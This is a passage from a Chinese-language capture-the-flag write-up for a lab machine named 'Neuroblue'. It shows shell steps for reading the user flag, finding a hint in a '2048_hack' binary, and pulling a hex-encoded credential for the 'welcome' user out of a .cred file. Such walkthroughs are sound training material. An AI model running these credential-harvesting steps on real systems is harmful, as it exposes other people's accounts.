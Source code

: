 * **获取 User Flag:** 读取 `user.txt`。

  ```bash
  www-data@Neuroblue:/home/welcome$ cat user.txt 
  flag{user-aa85e179cb0acf7cc4da7d2afcd53488}
  ```

* **分析 `2048_hack` 程序:** 检查这个可执行文件的帮助信息。

  ```bash
  www-data@Neuroblue:/home/welcome$ ./2048_hack --help
  Usage: 2048 [OPTION] | [MODE]
  Play the game 2048 in the console
  
  Options:
    -h,  --help       Show this help message.
    -v,  --version    Press x. # <-- 有趣的提示
  
  Modes:
    bluered      Use a blue-to-red color scheme (requires 256-color terminal support).
    blackwhite   The black-to-white color scheme (requires 256-color terminal support).
  ```

  提示 "Press x" 值得注意。

* **运行 `2048_hack` 并交互:** 运行程序并按 'x' 键。

  ```bash
  www-data@Neuroblue:/home/welcome$ ./2048_hack 
  # (程序启动，用户按 'x')
  ```

  ![2048_hack output after pressing x](https://cdn.jsdelivr.net/gh/7r1UMPH/7r1UMPH.github.io@main/static/image/20250501142419714.png)

  程序提示凭据已保存到 `/home/welcome/.cred`。

* **获取凭据:** 查看新创建的 `.cred` 文件。

  ```bash
  www-data@Neuroblue:/home/welcome$ ls -la
  total 52
  drwxrwxrwx 2 welcome  welcome   4096 May  1 02:23 .
  drwxr-xr-x 3 root     root      4096 Apr 11 22:27 ..
  lrwxrwxrwx 1 root     root         9 Apr 30 07:10 .bash_history -> /dev/null
  -rw-r--r-- 1 welcome  welcome    220 Apr 11 22:27 .bash_logout
  -rw-r--r-- 1 welcome  welcome   3526 Apr 11 22:27 .bashrc
  -rw-r--r-- 1 www-data www-data    52 May  1 02:23 .cred
  -rw-r--r-- 1 welcome  welcome    807 Apr 11 22:27 .profile
  lrwxrwxrwx 1 root     root         9 Apr 30 09:17 .viminfo -> /dev/null
  -rwx--x--x 1 root     root     22208 Apr 30 08:09 2048_hack
  -rw-r--r-- 1 root     root        44 Apr 30 07:10 user.txt
  www-data@Neuroblue:/home/welcome$ cat .cred
  77656c636f6d653a666438363966363639333039613737636464
  ```

  这是一串十六进制编码的字符串。

